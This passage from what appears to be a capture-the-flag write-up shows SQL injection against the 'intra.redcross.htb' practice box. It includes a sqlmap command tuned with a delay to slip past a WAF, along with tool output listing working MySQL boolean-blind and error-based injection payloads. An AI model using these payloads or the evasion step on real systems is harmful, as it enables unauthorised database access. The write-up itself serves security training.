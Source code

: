 ![1554219622783](https://0xdfimages.gitlab.io/img/1554219622783.png)

I have firefox set up to [not redirect without permission](https://superuser.com/questions/874819/prevent-automatic-redirects-in-firefox). On hitting submit, the first page that loads is a redirect, but the body says:

![1554219664842](https://0xdfimages.gitlab.io/img/1554219664842.png)

On allowing the redirect, I’m back at the main login. And logging in with guest / guest works and drops me at a Account info page:

![1554219749998](https://0xdfimages.gitlab.io/img/1554219749998.png)

#### SQLi

On submitting the UserID filter, I’m sent to `https://intra.redcross.htb/?o=1&page=app`, where `o=` is the id filtered on. If I try with a `'` in there, `https://intra.redcross.htb/?o=1'&page=app`:

![1554221201416](https://0xdfimages.gitlab.io/img/1554221201416.png)

Just running `sqlmap` will grind to a halt and break because of the WAF on the box. I’ll look at [manual SQLi in Beyond Root](#sqli-details). But I can still use `sqlmap` if I put in `--delay=1`, which puts a one second delay between each request. That also makes this take forever. I’d recommend running it and walking away:

```

root@kali# sqlmap -r app.request --delay=1 --batch --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 17:35:40

[17:35:40] [INFO] parsing HTTP request from 'app.request'  
[17:35:40] [INFO] testing connection to the target URL           
sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=9&page=app'. Do you want to follow? [Y/n] Y
[17:35:41] [INFO] testing if the target URL content is stable
[17:35:42] [WARNING] GET parameter 'o' does not appear to be dynamic
[17:35:43] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[17:35:44] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[17:35:44] [INFO] testing for SQL injection on GET parameter 'o'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...[snip]...
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 354 HTTP(s) requests:
---                                                                       
Parameter: o (GET)                                                           
    Type: boolean-based blind                                         
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: o=9') RLIKE (SELECT (CASE WHEN (1947=1947) THEN 9 ELSE 0x28 END))-- OmFQ&page=app
                                                                             
    Type: error-based                                                        
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app
```